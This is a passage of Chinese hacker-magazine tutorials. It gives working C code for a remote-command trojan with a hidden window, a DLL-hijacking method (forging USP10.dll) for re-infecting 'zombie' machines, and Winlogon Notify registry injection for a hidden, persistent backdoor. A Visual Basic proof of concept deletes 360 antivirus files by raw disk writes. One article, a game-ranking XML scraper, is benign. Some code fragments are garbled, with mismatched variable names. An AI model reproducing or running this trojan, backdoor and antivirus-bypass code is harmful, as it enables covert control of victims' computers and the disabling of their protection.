serveraddr.sin_addr.S_un.S_addr = htonl(INADDR_ANY);
if(bind(server,(SOCKADDR *)&serveraddr,sizeof(serveraddr)) == SOCKET_ERROR)//绑定
{
    printf("now binding error\n");
    return -1;
}
listen(server,5);//监听
```

- 3. 以上是简单的套接字的实现，而我们要实现功能函数在连接后要进行调用，功能函数定义为 cmd_shell(SOCKET target)。服务端实现 cmd 的获取需要通过创建新的进程来实现，代码如下：

```c
//双匿名管道实现写入读取
STARTUPINFO g_stStartUp;
PROCESS_INFORMATION g_stProcInfo;
HANDLE reHandle1,wrHandle1;
HANDLE reHandle2,wrHandle2;
...
char enter_key[2] = {0x0d,0x0a};
//填充SECURITY_ATTRIBUTES结构
SECURITY_ATTRIBUTES stSecurity;
stSecurity.nLength = sizeof(SECURITY_ATTRIBUTES);
stSecurity.lpSecurityDescriptor = NULL;
stSecurity.bInheritHandle = TRUE;//继承性
//创建两个管道，写入管道和读取的管道
CreatePipe(&reHandle1,&wrHandle1,&stSecurity,0);
CreatePipe(&reHandle2,&wrHandle2,&stSecurity,0);
//创建进程前填充STARTUPINFO结构
GetStartupInfo(&g_stStartUp);
g_stStartUp.hStdInput = reHandle1;
g_stStartUp.hStdOutput = wrHandle2;
g_stStartUp.hStdError = wrHandle2;
g_stStartUp.dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW;
g_stStartUp.wShowWindow = SW_HIDE;
```

```cpp
//创建进程CreateProcess启动这个控制台应用程序
if(CreateProcess(NULL, cmd.exe, NULL, NULL, TRUE, NORMAL_PRIORITY_CLASS, NULL, NULL, &g_stStartUp, &g_stProcInfo))
{
    DWORD bytes_read, bytes_write, ret;
    char buf[512] = {0};
    while(1)
    {
        memset(buf,'\0',512);
        PeekNamedPipe(reHandle2, buf, 512, &bytes_read, NULL, NULL);
        if(bytes_read != 0)
        {
            ret = ReadFile(reHandle2, buf, bytes_read, &bytes_read, NULL);
            send(target, buf, strlen(buf), 0);
            if(ret <= 0)
            {
                fprintf(stderr,"error on pipe %d", GetLastError());
                break;
            }
        }
        else
        {
            bytes_read = recv(target, buf, 512, 0);
            printf("%s", buf);
            if(bytes_read <= 0)
            {
                fprintf(stderr,"error %d", GetLastError());
            }
            WriteFile(wrHandle1, buf, strlen(buf), &bytes_write, NULL);
            WriteFile(wrHandle1, enter_key, 2, &bytes_write, NULL);
            if(strcmp(buf,"exit") == 0)
            {
                send(target,"连接关闭",8,0);
                break;
            }
        }
    }
}


```

- 4. 执行完毕后，进行关闭句柄以及套接字的关闭清理。服务器端在开头处添加 `#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")` 可实现程序的隐藏。

## 客户端的实现

- 1. 首先利用 MFC 窗体创建如图1所示的界面。
图1

- 2. 套接字的编程跟服务端相近，编写过程为初始化库、创建套接字、连接（connect）……我们要定义套接字等，需要在程序开头做好定义。
- 3. 对于 MFC 的界面需要创建线程来实现程序的顺畅运行，防止因为 connect 和 recv 等函数的阻塞出现程序无法响应。在此我们添加两个控件的成员变量，以实现编辑框内容的获取，m_ipaddr、m_port 分别对应着输入的 IP 地址和端口号。响应按钮“连接”对应函数即为连接函数 OnConnect()。连接函数 `void CMyDlg::OnConnect()` 及创建线程定义如下：

```cpp
void CMyDlg::OnConnect()
{
    UpdateData(true);
    //实现将编辑框内的内容传递到控件的成员变量中
    CreateThread(NULL, NULL, ServerThread, this, NULL, NULL);
}

DWORD WINAPI ServerThread(LPVOID lparam)
{
    CMyDlg *pDlg = (CMyDlg *)lparam;
    server = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    serveraddr.sin_family = AF_INET;
    serveraddr.sin_port = htons(pDlg->m_port);
    serveraddr.sin_addr.S_un.S_addr = inet_addr(pDlg->m_ipaddr);
    client = connect(server, (SOCKADDR *)&serveraddr, sizeof(serveraddr));
    if(client == SOCKET_ERROR)
    {
        MessageBox(NULL, "SORRY", "连接出错", MB_OK);
        return -1;
    }
    MessageBox(NULL, "CONGRATULATE!", "连接成功", MB_OK);
    pDlg->SetDlgItemText(IDC_INFO, "连接成功");

    char szRecv[1024];
    CString str0, str1;
    memset(szRecv,0,1024); //对接收szRecv进行初始化
    while(1)
    {
        recv(server, szRecv, 1024, 0);
        pDlg->GetDlgItemText(IDC_READ, str1);
        str0 = szRecv;
        str0 += "\r\n";
        str0 += str1;
        pDlg->SetDlgItemText(IDC_READ, str0);
    }
    return 0;
}
```

IDC_READ 是接收框的 ID，定义其属性为只读。

- 4. 对于“执行”按钮添加响应，创建新的线程实现命令的发送。

```cpp
//定义其ID为IDC_GO，其对应函数为OnGO()
执行函数：void CMyDlg::OnGO()
{
    memset(szGo,0,64);
    GetDlgItem(IDC_WRITE)->GetWindowTextA(szGo,64);
    CreateThread(NULL,0,GoThread,this,NULL,NULL);
}

DWORD WINAPI GoThread(LPVOID lparam)
{
    CMyDlg *pDlg = (CMyDlg *)lparam;
    //向服务端发送命令
    send(server,szGo,sizeof(szGo),0);
}
```

```cpp
if(strcmp(szGo,"exit")==0)
// 如果发送的是 exit 则进行套接字的关闭，并退出程序
{
    Sleep(100);
    pDlg->SetDlgItemText(IDC_INFO,"未连接");
    closesocket(server);
    closesocket(client);
    WSACleanup();
    exit(0);
}

return 0;
```

`strcmp(szGo,"exit")==0` 是进行判断，如果要退出控制，可以发送 `exit` 进行退出。

（5）清除信息添加响应按钮响应。

```cpp
void CMyDlg::OnClear()
{
    SetDlgItemText(IDC_READ,"");   // 清空接收框。
}


```

至此，一个简单的木马程序便完成了，当然其还有很多不足，不能实现开机启动，不能实现进程的隐藏等功能。这些都是在以后的慢慢改进中进行添加实现的。这个只是一个主体，重点是明白其原理，为以后实现更多功能打好基础。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

- 前置知识：VC
- 关键词：DLL 劫持、后门

# DLL 劫持实现后门程序启动
文/masepu

“肉鸡”掉线的主要原因是重新安装了系统或是远控程序被清除。经过仔细分析一些“肉鸡”的机器情况，发现它们一般都会有多个盘符，且除了系统盘外，其他盘基本都有安装或保存的系统常用工具或软件备份，因此我打算感染这些备份的程序，当“肉鸡”丢失后，只要使用者运行这些程序，就会再次执行木马程序，从而达到抓回“肉鸡”的目的。

- 1. 直接感染。利用修改可执行文件的入口点来达到运行我们设定程序的目的。
- 2. 利用前段时间刚出来的 lnk 快捷方式漏洞，可以代替 autorun.inf 来做感染。
- 3. 使用可执行文件捆绑的方式，不改变原程序图标，将正常程序和木马程序捆绑在一起实现感染。
- 4. 利用 DLL 劫持方式。DLL 劫持的原理是利用系统调用 DLL 的搜索路径优先级来实现控制。

DLL 劫持技术的原理是：当一个可执行文件运行时，Windows 加载器将可执行模块映射到进程地址空间中，分析输入表并查找所需 DLL，将其映射到进程地址空间中。由于输入表中只有 DLL 名而无路径，加载程序必须在磁盘上按搜索顺序查找 DLL：当前目录、系统目录、环境变量目录等。

利用这个特点，我们可以先伪造一个可执行文件需要调用的同名 DLL，提供相同输出表，在部分输出函数中完成预设功能后再转向真正系统 DLL。这样程序在调用系统 DLL 时会先调用当前目录下伪造 DLL，完成相关功能后再跳转到系统 DLL 同名函数。

根据以上原理，本文选择伪造 `USP10.dll`。正常 `USP10.dll` 位于 `C:\WINDOWS\system32\USP10.dll`，很多程序都会调用它。可通过导出函数转发来实现目标，例如：

```cpp
#pragma comment(linker, "/EXPORT:SomeFunc=DllWork.someOtherfunc")
```

该 pragma 告诉链接程序，被编译的 DLL 导出名为 `SomeFunc` 的函数，但其实现位于 `DllWork.dll` 的 `someOtherfunc` 中。要实现劫持，伪造 DLL 的输出函数必须与目标 DLL 保持兼容，DLL 输出函数名也要一样。可以构造这样的 pragma 指令：`#pragma comment(linker, "/EXPORT:LpkPresent=_MemCode__LpkPresent,@1")`。这样编译后的 DLL 会产生一个与 `USP10.dll` 同名的输出函数 `LpkPresent`。实际操作时，必须要为待转发的每个函数创建一个单独的 pragma 代码行，用以将 `USP10.dll` 的输出函数转换成相应的 pragma 指令。

当应用程序调用伪装的 `USP10.dll` 的输出函数执行后，必须将其转到系统 `USP10.dll` 的同名函数中，以实现该 DLL 函数的真正功能。以 `USP10.dll` 中的导出函数 `LpkPresent()` 为例，导出函数构造如下：

```cpp
ALCDECL MemCode_LpkPresent(void)
{
    GetAddress("LpkPresent");
    asm JMP EAX; // 转到系统 USP10.dll 的 LpkPresent 输出函数
}

FARPROC WINAPI GetAddress(PCSTR pszProcName)
{
    TCHAR tzPath[MAX_PATH];
    GetSystemDirectory(tzPath, MAX_PATH);
    lstrcat(tzPath, TEXT("\\usp10.dll"));
    HMODULE m_hModule = LoadLibrary(tzPath);
    FARPROC fpAddress = GetProcAddress(m_hModule, pszProcName);
    if (fpAddress == NULL) {
        // ...
        ExitProcess(-2);
    }
}


```

我们可以通过 Visual Studio 6.0 里的 Depends 工具来查看一个 DLL 里有多少个导出函数，可以看到 `USP10.dll` 中有 35 个导出函数。其他系统 DLL 导出函数更多，所以手工构造每一个输出函数是非常麻烦的事。在知道原理的前提下，可以直接用工具将 `USP10.dll` 的输出函数转换成相应的 pragma 指令，不再需要手工构造。然后将运行木马代码加在伪造的 DLL 中，例如在 `DllMain` 中写入 `WinExec("C:\\windows\\system32\\calc.exe",0);`。最后把木马保存到非系统盘并复制到目标目录，实现随程序启动而执行。文末说明该方法在 Windows XP SP3 + VC++6.0 环境测试通过，而在 Vista / Windows 7 下因系统机制不同而失效。

- 前置知识：C#、XML
- 关键词：网游、DP、C#

# 某网游网站 DP 页面数据的分析与获取
文/图 GF

对于不爱游戏的同志，可能还不知道 DP 是什么，我们首先来看看 DP 是什么。

## 什么是 DP 排行？

DP 是顺网科技提出的一个游戏热门指数，通过顺网“网维大师”平台，所有网吧终端的用户游戏行为综合分析得出，然后通过计算不同时间段的单击游戏时长，综合得出的游戏热门程度，该页面如图 1 所示。

那么我们的目标是通过编程的方式获取这些信息。先把效果图给大家看看，如图 2 和图 3 所示。

| 排名 | 游戏名称 | 指数 |
|---|---|---|
| 1 | ... | ... |
| 2 | ... | ... |
| ... | ... | ... |

（图中为 DP 排行页面截图，包含多行游戏排行数据）

图 1
图 2
图 3

这只是个核心的 demo 程序。事实上做到这里，已经可以将技术和功能衍生，例如按搜索需求定时输出这些数据到指定的 Excel 中。

## 实现思路

本文的产生其实源于无聊时逛威客看到的任务。发布人只是寥寥数语说明自己的需求，所以考验的不只是技术，还有分析用户的需求，以及如何将用户需求技术具体化。

乍看任务标题“抓取网页数据”，其实脑中就已经有了大致的思路：Windows 提供获取网页数据的 API，我们只需要直观输入 URL 读取就行了。至于分析这些数据，大致上和分析文本数据没什么两样。

可事实上并不是这么简单。通过打探，摆在面前的两个问题，完全可以推翻前面我们的惯性思维。

问题 1：图 1 中关键的 DP 数据并不能直接从网页代码中得到，而且作者还别有用心地在网页代码中添加了虚假代码误导我们，如图 4 所示。
图 4

框中的代码内容是 HTML 代码的注释语句。不注意的话会很容易被后面汪洋般的貌似 DP 数据代码骗过去。将网页保存为本地文件后再打开，DP 数据一个也没有。将代码里的相对路径加上网站 URL 构成绝对路径再打开，仍是无果。

分析半天代码也查不出个所以然，估计是穿梭在 JS 中了。错综复杂的调用弄得人晕头转向。这个时候不如返璞归真，以不变应万变，直接抓取网络数据包，果真得到了我们想要的数据，如图 5 所示。
图 5

注意框中的地址，那便是真实 DP 值的来源，直接用 IE 访问 XML 文件，效果如图 6 所示。

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<rows>
  <cell ID="">
    <id />
    <todayDp>11500</todayDp>
    <pkgUrl>http://cf.qq.com/</pkgUrl>
    <pkgName>穿越火线</pkgName>
    <gameUrl>http://www.qq.com/</gameUrl>
    <pkgId>11004</pkgId>
    <yestodayDp>11500</yestodayDp>
    <company>腾讯</company>
    <tdbySeq>1</tdbySeq>
    <tdbyDp>11429</tdbyDp>
  </cell>
  <cell ID="">
    ...
  </cell>
</rows>
```

图 6

XML 的读取有点类似数据库，其实用数据库的 API 来操作它也是可以的。不过既然 Windows 提供了专门的 XML API，我们当然要用它们了。（很显然，这时不再适宜用文本数据的处理方式来处理它。）

通过比对数据和名称，我们可以很容易地将各个数据与网页中的代表意义联系起来。我们开始动手编写程序吧。

## 实现代码

按照图 2 安排好各个控件后，先来写一个读取并分析的函数 `readxml();`。说句题外话，虽然本文用的是 C#，不过鉴于个人保持 C 和汇编的思考习惯，C# 的行家看了别见笑。

```csharp
listView1.Columns.Add("排名", 50, HorizontalAlignment.Left);
listView1.Columns.Add("游戏ID", 80, HorizontalAlignment.Left);
listView1.Columns.Add("游戏名称", 140, HorizontalAlignment.Left);
listView1.Columns.Add("公司", 100, HorizontalAlignment.Left);
listView1.Columns.Add("DP 值", 80, HorizontalAlignment.Left);
listView1.Columns.Add("", 100, HorizontalAlignment.Left);

int pm = 1;
string todayDp = "", pkgName = "", pkgId = "", yestodayDp = "", company = "", tdbyDp = "", edps = "";
XmlDocument xml = new XmlDocument();
xml.Load(@"http://www.xxxx.net/data/game/game_dp.xml");

foreach (XmlNode node in xml.ChildNodes)
{
    if (node.Name == "rows")
    {
        foreach (XmlNode node1 in node.ChildNodes)
        {
            if (node1.Name == "cell")
            {
                foreach (XmlNode node2 in node1.ChildNodes)
                {
                    switch (node2.Name)
                    {
                        case "todayDp": todayDp = node2.InnerText; break;
                        case "pkgName": pkgName = node2.InnerText; break;
                        case "pkgId": pkgId = node2.InnerText; break;
                        case "yestodayDp": yestodayDp = node2.InnerText; break;
                        case "company": company = node2.InnerText; break;
                        case "tdbyDp": tdbyDp = node2.InnerText; break;
                        default: break;
                    }
                }

                ListViewItem item;
                item = new ListViewItem(pm.ToString());
                item.SubItems.Add(pkgId);
                item.SubItems.Add(pkgName);
                item.SubItems.Add(company);
                item.SubItems.Add(todayDp);

                int edp = int.Parse(todayDp) - int.Parse(tdbyDp);
                if (edp > 0) edps = "+" + edp.ToString();
                else edps = edp.ToString();

                item.SubItems.Add("(" + edps + ")");
                listView1.Items.Add(item);
                if (edp > 0)
                    listView1.Items[pm - 1].ForeColor = Color.Red;
                pm++;
            }
        }
    }
}
```

本函数的功能是读取 XML 的数据，并分析后输出到 ListView 中，形成图 2 的效果。搜索部分的函数是在 `readxml` 上的增强，代码如下：

```csharp
void search(int selectindex) // 获取用户选择的搜索方式
{
    listView1.Columns.Add("排名", 50, HorizontalAlignment.Left);
    listView1.Columns.Add("游戏ID", 80, HorizontalAlignment.Left);
    listView1.Columns.Add("游戏名称", 140, HorizontalAlignment.Left);
    listView1.Columns.Add("公司", 100, HorizontalAlignment.Left);
    listView1.Columns.Add("DP 值", 80, HorizontalAlignment.Left);
    listView1.Columns.Add("", 100, HorizontalAlignment.Left);

    int pm = 1;
    string todayDp = "", pkgName = "", pkgId = "", yestodayDp = "", company = "", tdbyDp = "", edps = "";
    XmlDocument xml = new XmlDocument();
    xml.Load(@"http://www.icafe8.net/data/game/game_dp.xml");
    bool search_rc = false;

    foreach (XmlNode node in xml.ChildNodes)
    {
        if (node.Name == "rows")
        {
            foreach (XmlNode node1 in node.ChildNodes)
            {
                if (node1.Name == "cell")
                {
                    foreach (XmlNode node2 in node1.ChildNodes)
                    {
                        switch (node2.Name)
                        {
                            case "todayDp": todayDp = node2.InnerText; break;
                            case "pkgName": pkgName = node2.InnerText; break;
                            case "pkgId": pkgId = node2.InnerText; break;
                            case "yestodayDp": yestodayDp = node2.InnerText; break;
                            case "company": company = node2.InnerText; break;
                            case "tdbyDp": tdbyDp = node2.InnerText; break;
                        }
                    }
                }
            }
        }
    }
}
```

```csharp
switch(selectindex) //按搜索方式比对
{
    case 0://游戏名称
        if (pkgName.ToUpper().Contains(textBox1.Text.ToUpper()))
        {
            search_re = true;
        }
        break;
    case 1://游戏id
        if (pkgId.ToUpper().Contains(textBox1.Text.ToUpper()))
        {
            search_re = true;
        }
        break;
    case 2:
        if (company.ToUpper().Contains(textBox1.Text.ToUpper()))
        {
            search_re = true;
        }
        break;
}
if (!search_re)
    continue;
search_re = false;
ListViewItem item;
```

```csharp
item = new ListViewItem(pm.ToString()); //初始化就要填充一个
item.SubItems.Add(pkgId);
item.SubItems.Add(pkgName);
item.SubItems.Add(company);
item.SubItems.Add(todayDp);

int edp = int.Parse(todayDp) - int.Parse(tdbyp);
if (edp > 0)
    edps = "+" + edp.ToString();
else
    edps = edp.ToString();

item.SubItems.Add("(" + edps + ")");
listView1.Items.Add(item);
if (edp > 0)
    listView1.Items[pm - 1].ForeColor = Color.Red;
pm++;


```

到这里，整个程序就大致编写完成了。回过头来，仔细想想这个任务所用到的知识。

- （1）分析网页数据。单从网页来讲，一定的脚本基础和平时追踪真实资源（例如电影、歌曲真实下载地址）的锻炼是必不可少的。
- （2）编程方面，对 ListView 等控件的掌握；对 XML 处理的掌握。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载。）

前置知识：VC6+  
关键词：Winlogon、注入

# 再谈 Winlogon 注入
Ring3 自启动并隐藏执行的办法很多，但我个人觉得在最简单、最稳定、最顽固、最隐藏的方式中，注入 Winlogon 算是上佳选择。

但是往往大家在提出一个新技术或者新思路时，随之会忽略实际利用中的一些不可不考虑的问题。一般来说传统的做法，在 `SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\` 下新建项，然后新建相关键和值。其中：DllName 表示 DLL 的路径；类似 Logoff 等表示系统在进行相关动作时，应该执行 DLL 的某个对应函数。

是的，这样当系统重启（假设你设定的是重启执行）后你的程序便跑起来了。而且也没有进程。想要卸载 DLL，还得结束 Winlogon 进程（明显不能结束）。可是当真正应用于后门或者木马时便会出现类似现象：Winlogon 进程启动时阻塞长达一分钟多钟，也就是说，用户进入操作系统会比平时多 1 分多钟。这样的后门和木马马上形同鸡肋。

另外一点就是环境的关联问题。Winlogon 的权限自然是 System，关联的用户也是 System。那么，在读取用户信息数据时，这是个不大不小但是很关键的问题（特别是多用户的时候）。

## 解决问题 1：阻塞

在很久之前我就想过，难道所有的系统 DLL 都没有一直驻留执行的吗？否则为什么系统 DLL 那么多，还不影响 Winlogon 进程阻塞。其实微软早考虑过这个问题了，REG_DWORD 类型，键名为 Asynchronous 的值便会告诉 Winlogon 加载此 DLL 是否需要开启新线程来异步处理 Winlogon 事件，如设置为 1，Winlogon 将启动一个新线程来处理。

C 代码如下：

```c
HANDLE hToken;
TOKEN_PRIVILEGES tkp;
OpenProcessToken(GetCurrentProcess(), TOKEN_ALL_ACCESS, &hToken);
LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &tkp.Privileges[0].Luid);
tkp.PrivilegeCount = 1;
tkp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
AdjustTokenPrivileges(hToken, FALSE, &tkp, 0, (PTOKEN_PRIVILEGES)NULL, 0);

HKEY hkey;
BYTE value[MAX_PATH*2];
char run[] = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\Notify\\lsvr";
HANDLE handle;
RegDeleteKey(HKEY_LOCAL_MACHINE, run);
RegCreateKey(HKEY_LOCAL_MACHINE, run, &hkey);
if (!hkey) { return; }
strcpy((char*)&value, dllfullpath);
RegSetValueEx(hkey, "DLLName", 0, REG_EXPAND_SZ, (PBYTE)&value, strlen((char*)&value));
strcpy((char*)&value, "ffic");
RegSetValueEx(hkey, "Logon", 0, REG_SZ, (PBYTE)&value, strlen((char*)&value));
DWORD dw = 1;
RegSetValueEx(hkey, "Asynchronous", 0, REG_DWORD, (PBYTE)&dw, sizeof(dw));
```

第一种是注入 Explorer 进程，这样便获得和当前 Explorer 关联的用户环境了。这个方式带来的遗憾是，需要在系统运行后注入 Explorer。其中往往会有时间差的问题，所以要循环探测直到系统存在 Explorer。另一个问题是，不能保证注入的 Explorer 是真正的系统 Explorer 进程。也可能是同名的第三方程序进程。

第二种方式我觉得比设置 Winlogon 还要好一些，很通用，也不需要注入什么，即利用 ImpersonateLoggedOnUser 函数。在偷懒的前提下，可以获取 Explorer 的进程令牌，再以此令牌重新关联环境。这样的问题也是不确定 Explorer 的可靠性。所以可以根据实际情况，判断什么进程是一定和用户环境关联的。C 代码如下：

```c
HANDLE process = NULL;
HANDLE tokenHandle = NULL;
DWORD processId = 0;
BOOL isImpersonateSuccess = FALSE;
processId = getProcessId(_T("explorer.exe"));
if (processId) {
    process = OpenProcess(MAXIMUM_ALLOWED, FALSE, processId);
    if (OpenProcessToken(process, TOKEN_ALL_ACCESS, &tokenHandle)) {
        isImpersonateSuccess = ImpersonateLoggedOnUser(tokenHandle);
    }
    CloseHandle(tokenHandle);
    CloseHandle(process);
    return isImpersonateSuccess;
} else {
    return false;
}


```

那么第三种便是前面提到的，利用 Winlogon 提供的选项：REG_DWORD 类型的 Impersonate 键，确定是否以登录用户的权限来处理事件。从代码编写上来说，这个比较轻松一些，也省去找用户进程的麻烦。以上三种方式，可以根据实际应用选择。（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

## 疑难问题 2：用户环境关联

在不知道 Winlogon 提供此选择时，曾用过两种方法。

前置知识：VB  
关键词：Ring3、强制删除文件、360
# Ring3 强制删除文件突破 360 文件保护

文/图 广东工业大学 胡文亮

很多初学者觉得 360 的自我保护很强，认为根本无法撼动它一根汗毛。不过经本人实测，360 的自我保护实在不怎么样。且不说用驱动就能轻易将 360 碎尸万段，就算不用驱动也能让 360 彻底失效。在 2009 年 12 月的《黑客防线》上我曾经写过一篇用窗口攻击对付 360 的文章，至今仍然有效（用 GetForegroundWindow 取窗口句柄和 SetParent 的参数检查漏洞至今没有修复）。今天我又花了半天时间写了个 POC，能在 Ring3 下强制删除在 FAT32 格式分区安装的 360，而且 360 没有任何提示（我测试的 360 版本是 7.1.1）。这个 POC 使用了 VB 爱好者王伟生的代码，以及北京北亚数据恢复公司提供的资料，在此向这些帮助过我的人或团体表示衷心的感谢！

关于 Ring3 下强制删除文件，在 2008 年 7 月的《黑客防线》上曾经有过精彩的描述。不过那位作者用的是很表层的 MoveFileEx，这个函数是肯定无法删除 360 文件的。所以我们今天要使用一种更加底层的方式来删除文件：直接磁盘写入。Ring3 下的直接磁盘写入从 Windows Vista 开始被禁止，所以这个 POC 只能在 NT5 系列的操作系统上使用。

在磁盘解析之前，首先要了解 FAT32 格式的原理。限于篇幅，我就不把找到的资料全贴出来了，只是简单地说一下对于 FAT32 系统，是怎么删除文件的……所以删除文件夹是要遍历文件夹内所有的子目录和所有的文件，把所有这些内容的记录项打上 0xE5 标记，对应的 FAT 表内容清零。

知道了 FAT32 是怎么删除文件的，下面就直接贴代码。直接磁盘写入首先要“打开磁盘”，打开磁盘不需要使用（事实上也没有）专门的 OpenDisk 函数，使用 CreateFileA 就行了。

```vb
' Input   : Boolean   状态
' Output  : Boolean   磁盘是否打开成功
' Purpose : 获得磁盘句柄
Public Function OpenDisk(ByVal DiskName As String) As Boolean
    hDisk = CreateFile(DiskName, GENERIC_READ Or _
            GENERIC_WRITE, FILE_SHARE_READ Or FILE_SHARE_WRITE, _
            ByVal 0&, OPEN_EXISTING, 0, 0)
    OpenDisk = Not (hDisk = INVALID_HANDLE_VALUE)
End Function
```

直接从磁盘上删除文件的实现过程如下：

```vb
' Input  : sDelFile   要删除的文件全路径，或者是文件夹全路径
' Input  : blsDel     是否删除
' Input  : blsCrash   是否粉碎
' Output : Boolean    删除是否成功
' Purpose: 把一个文件直接从磁盘上删除或是粉碎
Private Function DelDiskFile(sDelFile As String, blsDel As Boolean, blsCrash As Boolean) As Boolean
    Dim sFileSplit() As String
    Dim dStartLoc As Double
    Dim blsDir As Boolean
    Dim blsRoot As Boolean
    Dim blsLast As Boolean
    Dim i As Long
    Dim sRetName As String
    Dim dDirInfo As DirInfo
    Dim dFileSize As Double
    Dim dCodeCluster As Double
    ...
End Function
```

```vb
ElseIf IFileSystemType = 2 Then
    dCodeCluster = &H2
End If
For i = 1 To UBound(sFileSplit)
    blsRoot = False
    If i < UBound(sFileSplit) Then
        blsDir = True
        blsLast = False
    Else
        blsDir = False
        blsLast = True
    End If
    sRetName = FindDirName(...)
    If sRetName = "No Name" Then Exit For
Next
If sRetName <> "No Name" Then
    DelDiskFile = True
Else
    DelDiskFile = False
End If
End Function
```

接下来看 FindDirName 这个函数是怎么进一步处理的（这个函数不仅包含删除文件的代码，还包含查找文件的代码，因为需要自己解析磁盘，而不是靠 Windows 来帮你解析）。

```vb
' Input  : sDisk
' Input  : dStartLoc 要读出的文件或文件夹的起始地址
' Input  : sDirName 要读出的文件或文件夹名称
' Input  : blsDir
' Input  : blsRootEntryDirName
' Input  : blsDel
' Input  : blsCrash
' Input  : blsLast
' Input  : blsFind
' Output : String
' Output : WinData
' Purpose: 校目录查找文件或文件夹并返回找到的文件名或文件夹名和簇号并返回文件的尺寸
```

说明：如果在一个根目录扇区尾部只有两个目录项位置（即 64 字节），但现在有一个文件名是长文件名，将占用 4 个目录项（128 字节），这时 Windows（背后）应该就要开始记录。复杂部分便延伸到下一个扇区，而不是直接跳到下一个扇区进行完整记录。这个函数的过程比较复杂，因为不管查找文件还是删除文件，都是要经过几乎相同的查找过程，只不过是找到后如何处理的问题。

```vb
Private Function FindDirName(sDisk As String, dCodeCluster As Double, sDirName As String, dFileSize As Double, tDirInfo As DirInfo, blsDir As Boolean, blsRootEntry As Boolean, blsDel As Boolean, blsCrash As Boolean, blsLast As Boolean, blsFind As Boolean) As String
    Dim Data() As Byte
    Dim Cluster() As Long
    Dim i As Long, l As Long, mm As Long
    Dim lTemp As Long, lStart As Long
    Dim lUp As Long
    Dim dFirstCluster As Double
    Dim bLengthFileNameFat As Boolean
    Dim FileNameByte() As Byte
    Dim TempData() As Byte
    Dim sName As String
    Dim sExtName As String
    Dim intLastPos As Long
    Dim lPos As Long
    Dim blsDirFact As Boolean
    ...
End Function
```

```vb
Dim lBb As Long, BTemp As Byte
Dim lNumByte As Long  ' 打开字节数变量，用于区分在根目录时和在文件夹时的不同量
Dim lNum32Byte As Long ' 一个簇有多少个 32 字节
Dim bOverCluster As Boolean ' 定义一个是否跨越簇的标志
Dim CheckNum As Byte ' 长文件名中保存的与其关联的短文件名的校验值
Dim CheckSum As Byte ' 由短文件名计算出的校验值
Dim dPrevStartLoc As Double ' 在跨簇时记录前一个起始地址用于删除
Dim dCurStartLoc As Double ' 记录跨簇或扇区时当前正在用的起始地址
Dim lOverNextStartPos As Long ' 记录跨簇或跨扇区后下一个开始位置
Dim dStartLoc As Double ' 起始地址

' 起始地址 = 数据区起始地址 +（返回的簇偏移号 - 基数 &H2）* 每簇扇区数 * 每扇区字节数
dStartLoc = lDataEntries + (dCodeCluster - &H2) * lSectorPerCluster * lBytePerSector
dFirstCluster = dCodeCluster

If bIsRootEntry Then
    iUp = lRootSector / lSectorPerCluster
Else
    iUp = lSectorPerCluster
End If

lNumByte = lBytePerSector * lSectorPerCluster
lNum32Byte = lNumByte / 32 - 1
ReDim Data(lNumByte - 1)

For i = 0 To iUp
    OpenDisk "\\.\\" & sDisk
    ReadDiskbyPos Data(), dStartLoc + i * lNumByte, lNumByte
    CloseDisk

    If bOverCluster Then
        lStart = lOverNextStartPos
    Else
        lStart = 0
    End If

    bOverCluster = False

    For mm = lStart To lNum32Byte
        If Data(mm * &H20) = &H0 Then
            mm = lNum32Byte
            Exit For
        End If

        If Data(mm * &H20) <> &HE5 And Data(mm * &H20) <> &H2E Then
            bLengthFileNameFact = (Data(mm * &H20 + &HB) = &HF)
            dOrigStartLoc = dStartLoc

            If bLengthFileNameFact Then
                CheckNum = Data(mm * &H20 + &HD)
                BTemp = Data(mm * &H20) And &H40
                If BTemp Then
                    intLastPos = Data(mm * &H20) And &H1F
                    ReDim FileNameByte(intLastPos * 26)
                    lTemp = 0

                    If mm + intLastPos > lNum32Byte Then
                        bOverCluster = True
                        lOverNextStartPos = mm + intLastPos - lNum32Byte
                        dPrevStartLoc = dStartLoc + i * lNumByte
                    End If
                End If
            End If
        End If
    Next mm
Next i
```

```vb
If Not bIsRootEntry Then
    If i = iUp - 1 Then
        If lFileSystemType = 1 Then
            dStartLoc = GetNextStartLoc16(sDisk, dFirstCluster)
        ElseIf lFileSystemType = 2 Then
            dStartLoc = GetNextStartLoc32(sDisk, dFirstCluster)
        End If

        dCurStartLoc = dStartLoc
        GetDataOverSector sDisk, TempData(), dCurStartLoc, lBytePerSector
    Else
        dCurStartLoc = dStartLoc + (i + 1) * lNumByte
        GetDataOverSector sDisk, TempData(), dCurStartLoc, lBytePerSector
    End If
Else
    dCurStartLoc = dStartLoc + (i + 1) * lNumByte
    GetDataOverSector sDisk, TempData(), dCurStartLoc, lBytePerSector
End If

CheckSum = GetCheckSum(TempData(), (mm + intLastPos - lNum32Byte - 1) * &H20)

If CheckNum = CheckSum Then
    bIsDirFact = TempData((mm + intLastPos - lNum32Byte - 1) * &H20 + &HB) And &H10

    If bIsDir = bIsDirFact Then
        MoveDataIntoByte TempData(), FileNameByte(), lTemp, mm - intLastPos - lNum32Byte - 2, 0
        MoveDataIntoByte Data(), FileNameByte(), lTemp, lNum32Byte - mm, mm

        sName = FileNameByte
        lPos = InStr(sName, Chr$(0), vbBinaryCompare)
        If lPos > 0 Then sName = Left$(sName, lPos - 1)

        lBb = mm + intLastPos - lNum32Byte - 1

        If StrComp(sDirName, sName, vbTextCompare) = 0 Then
            dFileSize = GetStartClusterAndFileSize(TempData(), dCodeCluster, lBb, bIsDir, bIsFind)

            If bIsLast Then
                If bIsFind Then
                    FindDirName = sName
                    DirInfoIntoType tDirInfo, dCodeCluster, sDisk, sName, dPrevStartLoc, dCurStartLoc, lBb, mm, lNum32Byte - mm, bOverCluster, bIsCrash
                Else
                    If bIsDel And (Not bIsDir) Then
                        WriteDelFlagIntoByte sDisk, Data(), dPrevStartLoc, lNum32Byte - mm, mm, bIsCrash
